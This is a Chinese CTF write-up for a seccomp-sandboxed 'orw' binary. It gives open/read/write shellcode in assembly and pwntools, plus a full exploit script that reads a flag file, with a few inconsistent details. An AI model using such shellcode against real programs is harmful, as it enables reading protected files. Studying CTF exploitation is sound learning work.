




## 0x001 程序分析

分析main函数，可以看到代码很简单，直接接收输入shellcode，然后转到shellcode上执行代码。这么简单？



怎么可能。。。。程序开始时调用了 **orw_seccomp** 函数



> seccomp 是 secure computing 的缩写，是 Linux kernel 从 2.6.23 版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。

在 **orw_seccomp** 函数中调用了两次 **prctl** 函数

> 第一次调用prctl函数 ————禁止提权 </br> 第二次调用prctl函数 ————限制能执行的系统调用只有open，write，exit

## 0x002 漏洞利用

使用checksec查看程序开启的保护



可以看到程序之开启了Canary，并且有可读可写可执行的段。

使用 **seccomp-tools** 可以分析seccomp沙盒



可以看到，程序中支持的系统调用只有open、read、write，那么就可以通过这三个系统调用读取flag文件的内容，然后打印出来就可以获取flag了。

执行 **sys_open("flag", 0, 0)** 的shellcode如下：
```
push 0x0
push 0x67616c66
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov eax, 0x5
int 0x80
```
或
```
shellcraft.open('flag')
```

执行 **sys_read(3, buf, 0x100)** 的shellcode如下：
```
add esp, 8
mov ebx, 0x3
mov ecx, esp
mov edx, 0x100
mov eax, 0x3
int 0x80
```
或
```
shellcraft.read('eax', 'esp', 100)
```

执行 **sys_write(0, buf, 0x100)** 的shellcode如下：
```
mov ebx, 0x1
mov ecx, esp
mov edx, 0x100
mov eax, 0x4
int 0x80
```
或
```
shellcraft.write(1, 'esp', 100)
```

最终EXP如下：
```
from pwn import *

context(arch='i386', os='linux')
p = process("./orw")

shellcode = '''
push 0x0
push 0x67616c66
mov ebx,esp
xor ecx,ecx
xor edx,edx
mov eax,0x5
int 0x80
nop
add esp,8
mov ebx,0x3
mov ecx,esp
mov edx,0x100
mov eax,0x3
int 0x80
nop
mov ebx,0x1
mov ecx,esp
mov edx,0x100
mov eax,0x4
int 0x80
'''

shellcode1 = shellcraft.open('flag')
shellcode1 += shellcraft.read('eax','esp',100)
shellcode1 += shellcraft.write(1,'esp',100)

p.sendlineafter('shellcode:', asm(shellcode))
p.interactive()
```

## 0x003 疑问

在本地调试时，在bss段中无法执行代码。。